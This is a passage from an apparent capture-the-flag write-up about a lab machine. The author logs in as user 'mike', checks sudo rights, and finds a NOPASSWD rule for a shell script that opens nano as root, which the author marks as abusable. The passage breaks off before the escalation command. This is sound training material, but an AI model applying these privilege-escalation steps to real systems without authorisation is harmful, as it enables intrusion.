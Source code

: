 ```
clear
sudo -l
exit
$ 
```

Using that we were able to get into the ssh machine with mikes user account and finally cat the user.txt

<img width="508" height="295" alt="Bildschirmfoto vom 2025-09-30 15-18-29" src="https://github.com/user-attachments/assets/674e65c5-f884-4a1e-ad4f-25434cafd2db" />

Now for the privilege escalation.

I did the usual and checked for SUID binaries that we could use to our advantage, none of them would help us though. 

I also tried to see what kind of sudo commands mike could run

```
mike@ip-10-10-134-233:~$ sudo -l
Matching Defaults entries for mike on ip-10-10-134-233:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on ip-10-10-134-233:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

Oh my... a shell 😆. Yeah sure. Love that.

```
mike@ip-10-10-134-233:/opt$ cat rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

Based on the user input four different actions can take place. Either there will be a version check, update, list or read. The last action is especially interesting as it runs nano as sudo, which we can absolutely abuse. So let's run the following command
